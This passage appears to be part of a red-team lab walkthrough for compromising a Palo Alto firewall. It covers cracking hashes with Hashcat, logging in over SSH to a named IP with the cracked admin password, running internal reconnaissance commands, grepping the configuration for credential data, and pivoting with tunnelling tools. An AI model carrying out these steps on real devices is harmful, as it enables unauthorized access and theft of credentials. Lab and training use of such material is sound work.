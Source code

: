 This will use Hashcat to attempt cracking the passwords. The -m 7400 option specifies the SHA-256 crypt format, and the -a 0 option sets the attack mode to dictionary-based.
   -While Hashcat is running, you can check the status of the cracking process by using the following command: `hashcat --status`

6. Once Hashcat has completed the cracking process, you can view the cracked passwords by running: `hashcat --show valid_hashes.txt`

7.Once the hashes are cracked run a cat on the valid_hashes.txt file to see who the passwords belong to: `cat valid_hashes.txt`

8. Using the cracked administrator credentials, you can now log into the Palo Alto device via SSH:

```
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa admin@1.33.170.38
```

  - When prompted, enter the cracked password. If successful, you should be logged into the Palo Alto device.

![image](https://github.com/user-attachments/assets/66e07739-2790-485b-9154-57c3ca5a34c8)


## Phase 5: Internal Reconnaissance & Enumeration

In this section, we’ll perform network discovery using native PAN-OS commands directly from the compromised Palo Alto device. We’ll focus on gathering network information, such as interfaces, routing tables, and active sessions.

Additionally, we copy all outputs from coommands into a text document on our local machine for later review.

1. Get Network Interfaces and copy them into a text file on your host machine: `show interface all`
2. View routing table and copy into same created text file: `show routing route`
3. Check arp table: `show arp all`



#### Look for management configs or logs

```bash
cat /config/config.xml | grep -i 'mgmt\|admin\|ldap\|radius'
```
Copy the output and paste into a text editor on your kali and save the file.

#### Attempt to pivot through firewall if routing/NAT is enabled

- sshuttle/reverse SOCKS proxy (chisel, socat) to tunnel traffic into the internal
network.

## Phase 6: Target Discovery Inside Orange Space

Assuming pivot success to internal hosts:

#### Scan internal subnets for DC or LDAP
